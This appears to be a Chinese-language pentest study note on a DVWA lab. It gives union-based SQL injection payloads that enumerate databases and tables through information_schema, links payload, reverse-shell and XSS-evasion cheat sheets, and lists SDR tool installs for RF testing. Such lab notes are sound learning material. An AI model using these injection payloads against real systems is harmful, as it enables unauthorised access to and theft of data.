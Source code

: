 select
![](https://i.imgur.com/2ljNhS8.png)
![](https://i.imgur.com/dmWdah5.png)

Information Schema
- Information_schema.schemata 所有db
- Information_schema.tables 所有table
- Information_schema.columns 所有的欄位

![](https://i.imgur.com/Adjm06U.png)
![](https://i.imgur.com/f6uOTKJ.png)


輸入1會產生ID1的資訊
![](https://i.imgur.com/kpFZTul.png)
因此可以使用select語法輸入所有的db
```
1 ' union select 1, schema_name from information_schema.schemata # 
```
![](https://i.imgur.com/iQecQTk.png)
```
1 ' union select 1, table_name from information_schema.tables # 
```
![](https://i.imgur.com/O5Ba3HO.png)

```
1 ' union select 1, table_name from information_schema.tables where table_name='dvwa'# 
```
![](https://i.imgur.com/sLCOQpN.png)

![](https://i.imgur.com/mRMPxDH.png)

![](https://i.imgur.com/9QEBR9x.png)


---
## 好用資源
- Payload All The Things
https://github.com/swisskyrepo/PayloadsAllTheThings
- GTFObins: 各種Reverse Shell
https://gtfobins.github.io/
- XSS Bypass Filter
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

----
## RF 滲透測試

安裝基本套件
```
sudo apt-get install gnuradio 
sudo apt-get install gr-osmosdr
sudo apt-get install rtl-sdr
rtl_test
```
![](https://i.imgur.com/Dpat9WW.png)
